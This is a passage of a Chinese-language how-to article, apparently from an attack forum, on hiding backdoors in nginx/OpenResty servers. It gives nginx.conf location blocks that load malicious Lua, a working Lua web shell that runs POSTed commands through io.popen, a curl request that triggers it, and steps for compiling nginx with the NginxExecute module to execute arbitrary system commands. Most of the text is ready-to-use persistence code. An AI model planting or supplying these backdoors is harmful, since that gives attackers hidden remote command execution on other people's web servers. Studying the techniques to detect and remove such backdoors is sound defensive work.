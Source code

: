 以上操作配置lua脚本路径，并在nginx.conf中指定location去加载lua脚本中的恶意函数

```cpp
location /a/ {
    content_by_lua 'cmd.run()';
}
```

之后执行`nginx -s reload`重载nginx并请求后门url

![Untitled7.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-e402bce05c17856743e4ce7bbab6a307e270fd87.png)

```cpp
curl [http://192.168.142.137/a/](http://192.168.142.137/a/) -d "cmd=id"
```

![Untitled8.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-36ceea0cc99ac2eb42a06c7a1a9e9321779370e5.png)

#### 方式二：

在html目录下放置任意文件即指定后门url路径，在nginx.conf中添加`content_by_lua_file`参数为lua后门文件

```cpp
location = /a.html {
     default_type 'text/plain';
     content_by_lua_file '/usr/local/openresty/nginx/conf/lua/t2.lua';
}
```

t2.lua内容如下

```cpp
ngx.req.read_body()
local post_args = ngx.req.get_post_args()
local cmd = post_args["cmd2"]
if cmd then
    f_ret = io.popen(cmd)
    local ret = f_ret:read("*a")
    ngx.say(string.format("%s", ret))
end
```

![Untitled9.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-8f7a68f2b35f8109630ee0e322cac0109df2d1fd.png)

`content_by_lua*`更多参数用法可参考：<https://blog.csdn.net/jll126/article/details/123822646>

以上仅展示了用作命令执行的后门，只要服务器的lua模块足够强大，其实可以配合nginx处理阶段做更多操作。

nginx execute
-------------

<https://github.com/limithit/NginxExecute>

该后门利用nginx的`ngx_http_execute`，从而达到执行任意系统命令的目的。攻击者可以通过特定的请求即可执行任意系统命令。 需要重新编译nginx并添加后门module模块

```cpp
./configure --prefix=/usr/local/nginx/ --add-module=/tools/NginxExecute-1.6.1
make
```
